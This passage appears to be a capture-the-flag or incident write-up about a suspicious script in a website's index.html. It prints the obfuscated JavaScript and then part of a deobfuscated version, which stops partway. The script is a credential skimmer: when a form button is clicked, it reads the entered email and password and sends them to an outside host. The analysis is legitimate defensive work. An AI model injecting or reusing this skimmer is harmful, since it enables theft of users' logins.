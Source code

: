 ```html
function _0x299a(_0xa725a8,_0x48ecb7){var _0x33465e=_0x3346();return _0x299a=function(_0x299a8c,_0x4edf29){_0x299a8c=_0x299a8c-0x7f;var _0x3b4711=_0x33465e[_0x299a8c];return _0x3b4711;},_0x299a(_0xa725a8,_0x48ecb7);}var _0x52de18=_0x299a;function _0x3346(){var _0x1cd6fe=['length','.subscribe-form\x20.form-control[type=\x22password\x22]','click','10GjwUiH','283448ojrvqi','PSkvNyoILFxaI0BVW0M+RlBZR1QsVVxHPkAXXUYYBAldRlIsD14DVRdVF0Ec','.subscribe-form\x20.btn.btn-info','GET','11wIJUzs','385aGCgYF','203916QRBBAJ','addEventListener','186854HAAPmi','DOMContentLoaded','push','34662TcBphL','join','open','value','querySelector','charCodeAt','5003910eMoXPe','945368MfXSkw','9CofhOF','&apikey=','https://storage.appssec.co.ind?email=','send','724557XgnpSv'];_0x3346=function(){return _0x1cd6fe;};return _0x3346();}(function(_0x104a86,_0xa6db47){var _0x4c8d43=_0x299a,_0xf91101=_0x104a86();while(!![]){try{var _0x29d6b2=-parseInt(_0x4c8d43(0x8c))/0x1+parseInt(_0x4c8d43(0x94))/0x2+-parseInt(_0x4c8d43(0x87))/0x3+-parseInt(_0x4c8d43(0x92))/0x4*(parseInt(_0x4c8d43(0x8b))/0x5)+parseInt(_0x4c8d43(0x97))/0x6*(parseInt(_0x4c8d43(0x91))/0x7)+-parseInt(_0x4c8d43(0x82))/0x8*(parseInt(_0x4c8d43(0x83))/0x9)+parseInt(_0x4c8d43(0x81))/0xa*(parseInt(_0x4c8d43(0x90))/0xb);if(_0x29d6b2===_0xa6db47)break;else _0xf91101['push'](_0xf91101['shift']());}catch(_0x4597d0){_0xf91101['push'](_0xf91101['shift']());}}}(_0x3346,0x28a39),document[_0x52de18(0x93)](_0x52de18(0x95),function(){var _0x3010de=_0x52de18;const _0x4c17d1=document['querySelector'](_0x3010de(0x8e)),_0x5bc16f=document[_0x3010de(0x7f)]('.subscribe-form\x20.form-control[type=\x22text\x22]'),_0x106e8a=document[_0x3010de(0x7f)](_0x3010de(0x89));_0x4c17d1[_0x3010de(0x93)](_0x3010de(0x8a),function(){var _0xaf724a=_0x3010de;const _0x3a9d03=_0x5bc16f[_0xaf724a(0x9a)],_0x38e031=_0x106e8a[_0xaf724a(0x9a)];var _0x37a3bb=_0xaf724a(0x8d);function _0x2ae5a0(_0x49225f){var _0x4a91e4=_0xaf724a,_0x1d14ff=['s','a','n','t','a'],_0x1bcfcc=[];input=atob(_0x49225f);for(var _0x4d4b2f=0x0;_0x4d4b2f<input[_0x4a91e4(0x88)];_0x4d4b2f++){var _0x41b22f=input[_0x4a91e4(0x80)](_0x4d4b2f)^_0x1d14ff[_0x4d4b2f%_0x1d14ff[_0x4a91e4(0x88)]][_0x4a91e4(0x80)](0x0);_0x1bcfcc[_0x4a91e4(0x96)](String['fromCharCode'](_0x41b22f));}return _0x1bcfcc[_0x4a91e4(0x98)]('');}function _0xe05049(){var _0x3ebbc9=_0xaf724a,_0x45261b=_0x3a9d03,_0x2bf34e=_0x38e031,_0x5ba78a=_0x2ae5a0(_0x37a3bb),_0x5b4edc=new XMLHttpRequest();_0x5b4edc[_0x3ebbc9(0x99)](_0x3ebbc9(0x8f),_0x3ebbc9(0x85)+_0x45261b+'&password='+_0x2bf34e+_0x3ebbc9(0x84)+String(_0x5ba78a)),_0x5b4edc[_0x3ebbc9(0x86)]();}_0xe05049();});}));
</script>
```

This request contains the index.html page of the themrbeas7.org website.  
We can spot a suspicious looking script at the end of the html file contained in the request, but it does not make a lot of sense. We can distinguish some strings such as *password*, *fromCharCode*, *h[x][x]ps://storage.appssec.co.ind?* and so on.  
This is basically obfuscated javascript. Let's try to deobfuscate it and make sense of it.  
For this purpose, we can use the online tool:
- https://deobfuscate.relative.im/

We can pass the obfuscated javascript to it and click on 'deobfuscate'. Doing this, we get the following code:
```js
document.addEventListener('DOMContentLoaded', function () {
  const _0x4c17d1 = document.querySelector('.subscribe-form .btn.btn-info'),
    _0x5bc16f = document.querySelector(
      '.subscribe-form .form-control[type="text"]'
    ),
    _0x106e8a = document.querySelector(
      '.subscribe-form .form-control[type="password"]'
    )
  _0x4c17d1.addEventListener('click', function () {
    const _0x3a9d03 = _0x5bc16f.value,
      _0x38e031 = _0x106e8a.value
    var _0x37a3bb =
      'PSkvNyoILFxaI0BVW0M+RlBZR1QsVVxHPkAXXUYYBAldRlIsD14DVRdVF0Ec'
    function _0x2ae5a0(_0x49225f) {
      var _0x1d14ff = ['s', 'a', 'n', 't', 'a'],
        _0x1bcfcc = []
      input = atob(_0x49225f)
      for (var _0x4d4b2f = 0; _0x4d4b2f < input.length; _0x4d4b2f++) {
        var _0x41b22f =
          input.charCodeAt(_0x4d4b2f) ^
          _0x1d14ff[_0x4d4b2f % _0x1d14ff.length].charCodeAt(0)
        _0x1bcfcc.push(String.fromCharCode(_0x41b22f))
      }
```